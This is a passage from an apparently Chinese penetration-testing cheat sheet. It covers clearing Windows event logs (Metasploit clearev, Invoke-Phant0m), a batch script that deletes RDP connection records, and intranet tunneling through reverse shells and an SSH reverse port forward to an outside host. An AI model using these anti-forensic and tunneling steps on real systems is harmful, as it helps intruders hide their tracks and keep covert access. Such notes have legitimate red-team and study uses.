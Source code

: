 - [Invoke-Phant0m](https://github.com/hlldz/Invoke-Phant0m)
- [Windwos-EventLog-Bypass](https://github.com/3gstudent/Windwos-EventLog-Bypass)

### Metasploit

```
run clearlogs 
clearev 
```

### 3389登陆记录清除

```
@echo off
@reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default" /va /f
@del "%USERPROFILE%\My Documents\Default.rdp" /a
@exit
```



# 15.内网穿透

**区分正向代理与反向代理**

A----b----C

~~~
A去请求C,B作为代理，代替A去访问C，并将返回的结果转发给A   那么B就是正向代理
B主动与A的8888端口连接，并将A:8888的访问转发到C:80上去，并将结果转发给A,则B是反向代理
反向代理优势: 当AB之间有防火墙，不允许A连B,但是允许B连A
~~~



#### 0x01 场景与思路分析

###### 场景一：内网防火墙对出口流量没有任何端口限制

思路 **：由于防火墙对出口流量没有任何端口限制，我们的可选择的方案非常灵活，如：反弹shell**



###### 场景二：内网防火墙仅允许内网主机访问外网的特定端口（如：80, 443）

思路：由于防火墙仅允许部分特定外网端口可以访问，思路一仍然是反弹shell只不过目标端口改成特定端口即可；思路二则是端口转发，将内网主机的某些服务的端口转发到外网攻击主机上的防火墙允许的特定端口上，再通过连接外网主机上的本地端口来访问内网服务

**方法一：反弹shell可参考场景一中的方法，仅需修改目标端口为防火墙允许的特定端口即可**

**方法二：端口转发**

**方法三：SSH的动态端口转发配合proxychains来代理所有流量进一步渗透内网**

1.在内网主机上执行

```javascript
ssh -f -N -R 2222:127.0.0.1:22 -p 80 root@192.168.0.230
(输入外网主机的SSH口令)
```
